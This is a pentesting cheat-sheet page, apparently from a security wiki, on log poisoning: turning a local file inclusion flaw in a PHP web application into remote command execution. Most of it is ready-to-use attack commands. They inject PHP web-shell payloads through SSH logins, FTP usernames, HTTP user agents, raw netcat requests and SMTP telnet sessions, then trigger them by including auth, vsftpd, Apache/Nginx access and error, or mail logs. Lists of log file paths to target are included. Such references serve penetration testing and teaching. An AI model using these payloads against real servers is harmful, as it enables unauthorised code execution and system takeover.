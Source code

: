 # Logs Poisoning

## Theory

Log Poisoning is a common technique used to gain a reverse shell from a LFI vulnerability. To make it work an attacker attempts to inject malicious input to the server log.

## Practice

{% hint style="danger" %}
**If you use double quotes** for the shell instead of **simple quotes**, the double quotes will be modified for the string "_**quote;**_", **PHP will throw an error** there and **nothing else will be executed**
{% endhint %}

{% hint style="danger" %}
make sure you **write correctly the payload** or PHP will error every time it tries to load the log file and you won't have a second opportunity.
{% endhint %}

<details>

<summary>/var/log/auth.log</summary>

We can try to log in with SSH using a crafted login. On a Linux system, the login will be echoed in `/var/log/auth.log`. By exploiting a Local File Inclusion, the attacker will be able to make the crafted login echoed in this file interpreted by the server.

```bash
# Sending the payload via SSH
ssh '<?php phpinfo(); ?>'@$TARGET

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/auth.log&cmd=id
```

</details>

<details>

<summary>/var/log/vsftpd.log</summary>

When the FTP service is available, testers can try to access the `/var/log/vsftpd.log` and see if any content is displayed. If that's the case, log poisoning may be possible by connecting via FTP and trying to login setting the PHP payload in the username and then access the logs using the LFI.

```bash
# Sending the payload via FTP
ftp $TARGET_IP
> '<?php system($_GET['cmd'])?>'

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/vsftpd.log&cmd=id
```

</details>

<details>

<summary>Apache/Nginx access.log</summary>

When the web application is using an Apache2 or Nginx server, the `access.log` may be accessible using an LFI.

```bash
# Sending the payload in user agent via curl
curl --user-agent "<?php passthru(\$_GET['cmd']); ?>" $URL

# Accessing the log file via LFI
curl $URL/?parameter=/var/log/apache2/access.log&cmd=id
```

You may find the access.log files on the following locations, for more locations you may use one of this [wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI):

```bash
# APACHE LOG FILE
## RHEL/Red Hat/CentOS/Fedora
/var/log/httpd/access_log

## Debian/Ubuntu
/var/log/apache2/access.log
/var/log/apache/access.log
/usr/local/apache2/log/access.log
/usr/local/apache/log/access.log

## FreeBSD
/var/log/httpd-access.log

## Windows
C:\xampp\apache\logs

# NGINX LOG FILE
## Linux
/var/log/nginx/access.log

## Windows
C:\nginx\log
```

</details>

<details>

<summary>Apache/Nginx error.log</summary>

This one is similar to the `access.log`, but instead of putting simple requests in the log file, it will put errors in `error.log`.

As the `/<?php passthru($_GET['cmd']); ?>` page doesn't exist, it will be logged to the error.log

```bash
# Sending the payload via netcat (avoid url encoding)
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl $URL/?parameter=/var/log/apache2/error.log&cmd=id
```

You may find the access.log files on the following locations, for more locations you may use one of this [wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI):

```bash
# APACHE LOG FILE
## RHEL/Red Hat/CentOS/Fedora
/var/log/httpd/error_log

## Debian/Ubuntu
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache2/log/error.log
/usr/local/apache/log/error.log

## FreeBSD
/var/log/httpd-error.log

## Windows
C:\xampp\apache\logs

# NGINX LOG FILE
## Linux
/var/log/nginx/error.log

## Windows
C:\nginx\log
```

</details>

<details>

<summary>Email Logs</summary>

When an SMTP server is running and writing logs in `/var/log/mail.log`, it's possible to inject a payload using telnet (as an example).

```bash
# Sending the payload via telnet
telnet $TARGET_IP $TARGET_PORT*
> HELO $DOMAIN
> MAIL FROM:<pentest@pentest.com>
> RCPT TO:<?php system($_GET['cmd']); ?>

# Accessing the log file via LFI
curl "$URL/?parameter=/var/log/mail.log&cmd=id"
```

Alternatively, s**end a mail** to a internal account (user@localhost) containing your PHP payload

```bash
# Sending the payload via telnet
telnet $TARGET_IP $TARGET_PORT
> HELO localhost
> MAIL FROM:<pentest@pentest.com>
> RCPT TO:<www-data@localhost>
> DATA
> subject: RCE
> <?php system($_GET['cmd']); ?>
> .

# Accessing the log file via LFI
curl "$URL/?parameter=/var/spool/mail/www-data&cmd=id"

```

</details>



## References

{% embed url="https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi2rce" %}

{% embed url="https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning" %}

{% embed url="https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d" %}

